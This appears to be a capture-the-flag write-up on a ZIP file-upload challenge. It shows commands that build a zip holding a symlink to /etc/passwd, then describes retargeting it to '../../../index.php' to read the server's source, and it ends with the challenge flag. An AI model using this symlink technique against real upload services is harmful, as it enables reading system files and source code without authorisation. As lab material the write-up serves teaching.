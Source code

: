 ```yaml
---
layout: default
title: File-upload-ZIP
---
```


First, we can create `symlink` inside a zip file, as shown here [symbolic soft link in zip](https://clammy-snowstorm-0d2.notion.site/symbolic-soft-link-05ca57bf671a42acae52cfba49f19cb5)

I'm using this script
```py
{% include_relative scripts/File-upload-ZIP_symlink.py %}
```

However, we can simply also execute those lines:
```bash
ln -s /etc/passwd symlink
zip --symlink payload.zip symlink

### checking
unzip payload.zip -d extracted/
ls -l extracted/
```
So, here you can see the creation using cmd: 
![manually create symlink](./images/File-upload-ZIP_create_mannually.png)

And here you can see using the script:
![create using script](./images/File-upload-ZIP_symlinc_PoC.png)

Okay, now let's adjust the content, we want to create file which is called `data.txt`, which will be symlink to `../../../index.php`
Because we need to go down, in the hierarchy of directories:
```
ch51/tmp/upload/688fd0b03c9c86.85044017/../../../index.php
```

So, I adjust the script, and then uploaded `payload.zip`

When accessing `data.txt` on its path, we simply going to `../../../index.php`, which gives us the data.

![FINAL](./images/File-upload-ZIP_FINAL.png)

**Flag:** **_`N3v3r_7rU5T_u5Er_1npU7`_**
